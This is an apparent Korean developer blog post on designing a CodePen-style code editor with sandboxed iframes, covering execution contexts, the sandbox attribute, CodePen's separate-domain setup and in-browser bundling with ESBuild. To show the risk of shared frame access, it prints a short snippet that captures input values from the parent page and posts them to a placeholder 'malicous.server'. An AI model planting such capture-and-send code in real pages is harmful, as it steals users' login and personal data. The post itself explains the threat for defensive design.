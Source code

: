 ```yaml
---
layout: single
title: '코드 에디터를 위한 iframe 디자인 패턴'
categories: HTML
tag: [HTML, CodePen Project]
---
```


#### 개발 목표

Code Pen이라는 온라인 코딩 툴 사이트가 있다. - https://codepen.io/ <br>해당 사이트와 같이 코드를 입력하고 번들링하여 실시간으로 보여주는 사이트를 React로 만들고자 한다. 단, 로그인과 같은 인증 기능은 제외한다.

---

#### 코드 입력 창에서 발생할 수 있는 문제점

간단하게 만들 수 있을 것 같았지만 코드를 입력하는 창을 구현하기 위해서는 아래와 같은 이슈사항들이 있었다.

1. 코드 입력창에 오류를 발생시키는 문법 등의 잘못된 코드가 작성될 수 있다.
2. DOM을 조작하는 코드로 인해 예상하지 못한 현상이 발생할 수 있다. <br> ex) document.body.innerHTML = '';
3. 사용자가 악의적인 코드를 넣을 수 있다. <br> ex) for (var i = 0; i < 99999999999999999; i++) {
   console.log(i);
   }

---

#### iframe 사용하여 해결

상기와 같은 문제점을 해결하기 위해서 HTML의 iframe을 사용해야 한다. iframe은 일반적으로 child frame이며, 그외의 요소는 parent frame에 속한다. 여기서 중요한 것은 **JavaScript EC(execution context)가 parent/child frame 별로 각각 따로 존재하고 실행된다는 것이다**. 즉, iframe에서 문제가 발생하더라도 iframe의 EC에서만 오류가 발생하고, Front App의 EC에는 영향을 주지 않는다.

![codepen-flowchart](/assets/images/iframe/js-execution-context.png 'Code Pen 사이트 디자인패턴')

그렇다면 어떻게 사용자가 입력한 코드를 iframe로 넣어 실행할 수 있을까?
'child frame'에서 'parent frame'의 정보를 가져올 때는 'parent' 문법을 사용하면 된다. 크롬 개발자 도구의 'console' 탭에서 'child iframe' 요소를 선택 후 'parent'를 입력하면 'parent frame'의 'Window 객체' 나타나는 것을 확인 할 수 있다. 반대로 'parent frame'에서 'child iframe'의 정보를 가져올 때는 'document.querySelector('iframe').contentWindow' 문법을 사용하면 된다.

추가적으로 알아야할 사항은 iframe이 항상 parent와 child frame의 커뮤니케이션을 허용하는 것은 아니라는 점이다. iframe은 아래와 같은 조건에서만 parent/child가 서로 접근할 수 있다.

-   iframe에 'sandbox' 프로퍼티가 없는 경우
-   sandbox의 프로퍼티가 존재하지만, 'sandbox="allow-same-origin"'인 경우
-   parent/child의 HTML document가 같은 domain, port, protocol(http vs https)인 경우

---

#### parent/child 직접 통신 방식의 문제점 및 해결방법

하지만, parent/child frame이 서로 직접 접근할 수 있으면 많은 문제점이 발생한다. 예를 들어, 해커가 사용자의 코드 입력 창에 아래와 같은 악의적인 코드를 넣을 수 있다. 이를 통해 해커는 'child frame'에서 'parent frame'의 input element'를 가져올 수 있다. 이후 eventListener를 사용하여 악의적인 서버로 개인 및 로그인 정보를 보낼 수 있다.

```javascript
document.querySelector('input').addEventListener('change', function => {
   axios.post('malicous.server', {
      value: event.target.value
   })
})
```

이외에도 쿠키와 세션 정보 등을 갈취할 수 있을 것이다. 이러한 이유로 Code Pen 사이트에서도 parent/child가 직접 통신하는 방식으로 구현하지 않았다.

아래는 Code Pen 사이트의 데이터 흐름을 정리한 것이다.
![codepen-flowchart](/assets/images/iframe/codepen-flowchart.png 'Code Pen 사이트 디자인패턴')

1. 사용자가 코드를 입력하면 'codepen.io' 서버에 코드를 전송한다.
2. codepen.io 서버에서 코드 Transpiling 프로세스가 완료된다.
3. Transpiling된 코드를 Frontend App으로 전송한다.
4. **전송된 코드를 바로 Frontend App에서 실행하는 것이 아니라 iframe을 먼저 Reload 시킨다.** (Reload는 새로고침과 유사)
5. Reload가 될 때, 'copn.io' 서버에 요청하여 iframe에서 보여질 HTML document를 가져온다. 즉, iframe은 다른 도메인을 통해서 로드된다.
6. HTML document 요소를 가져온 뒤, 'codepen.io' 서버에서 Transpiling된 JS 코드를 다시 'cdpn.io'에 전송 후 돌려받는다. 해당 JS 코드를 실행하며 끝난다.

> 참고 : 사이트에서 코드를 입력하면 개발자 도구 Network 탭에서 통신을 확인할 수 있다.
> ![codepen-flowchart-site](/assets/images/iframe/codepen-flowchart-realsite.png 'Code Pen 사이트 네트워크 탭')

흐름을 살펴보면 Front App과 iframe간의 직접 통신하는 부분이 없다는 것을 확인할 수 있다. 이는 위에서 설명했듯이 악의적인 코드가 브라우저에서 실행되는 것을 방지하기 위해서이다.

대부분의 '온라인 코딩 툴 사이트'는 위와 같은 구조를 가지고 있다. 하지만 서버를 2개나 사용하고 데이터 흐름도 복잡하다. 쉬운 방법은 없을까? 브라우저 내에서 코드를 Transpiling을 하면 더 간편한 로직으로 만들 수 있다.

<hr>
#### ESbuild를 사용한 코드 번들링 간소화

기존 Code Pen 사이트의 경우 코드 Transpiling을 아래의 그림과 같이 BackEnd에서 진행하는 복잡한 구조를 가지고 있다.

![codepen-option1-flowchart-site](/assets/images/iframe/codepen-option1-be-flowchart.png 'Code Pen 번들링 옵션1')

하지만, ESBuild를 사용하면 아래의 그림과 같이 브라우저 내에서 코드 Transpiling을 진행할 수 있다. 브라우저 코드 Transpiling 방법을 설명하기에는 너무 길어져 별도의 포스팅에서 확인할 수 있다.

![codepen-option2-flowchart-site](/assets/images/iframe/codepen-option2-flowchart.png 'Code Pen 번들링 옵션2')

이를 통해 코드 Transpiling을 위한 서버를 생략할 수 있다. ESbuild는 브라우저 자체에서 JS 코드를 실행 한다. 따라서 기존의 'cdpn.io' 서버에서 진행했던 JS 파일 실행 프로세스도 생략 가능하다. 최종적으로 'cdpn.io' 서버에는 HTML document를 fetch하는 부분만 남는다. 이는 parent document에 접근하지 못하도록하는 오직 하나의 보안상의 이유로만 존재한다. 하나의 보안상의 이유로 서버를 사용하는 것이 비효율적이다. 다른 해결 방법은 없을까?

우리는 이미 위에서 iframe이 "sandbox='allow-same-origin'" 프로퍼티를 가지고 있으면 frame간의 직접 커뮤니케이션이 가능하다는 것을 배웠다. 이를 뒤집어 생각하면 "sandbox=''"와 같은 empty string을 사용하면 서버 없이 frame간의 간접 커뮤니케이션이 가능하다. 즉, 서버 없이 동일한 보안 목적을 달성할 수 있는 것이다. 최종적으로 아래와 같은 간단한 구조로 구현이 가능하다.

![codepen-final-flowchart-site](/assets/images/iframe/codepen-final-flowchart.png 'Code Pen 최종 아키텍처')

최종적인 패턴의 흐름은 아래와 같다.

1. 유저가 코드를 작성하면 iframe이 reload 된다.
2. Frontend App에 작성한 HTML document를 가져와 iframe에 load한다.
3. iframe 내부에서 JS 코드 번들이 진행된다. 이때 sandbox='' 옵션으로 parent와 외부 document에 접근이 불가하다.

간소화가 되었지만 여기에도 단점은 존재한다. localStorage, cookie 등과 같은 곳에 접근하지 못하는 것이다. 즉, 코드 입력창에 "localStorage.getItem('userInfo')"와 같은 구분을 입력했을 때 동작하지 않는다. 구현이 간단해진만큼 기능이 없어지는 타협점이다.
